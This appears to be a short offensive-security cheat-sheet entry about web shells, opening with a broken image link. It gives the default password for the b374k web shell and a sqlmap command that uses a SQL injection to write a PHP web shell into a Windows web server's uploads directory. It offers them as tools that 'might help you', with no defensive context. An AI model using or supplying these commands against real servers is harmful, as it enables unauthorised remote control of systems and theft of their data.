 These web shells helped tons. They might help you as well.

### [b374k webshell password]
```
b374k
```

### [Uploading Webshell using sqlmap]
```
sqlmap -r file_request --file-write=/root/pwn/http/winterwolfshell.php --file-dest=/inetpub/wwwroot/uploads/winterwolfshell.php --batch
```
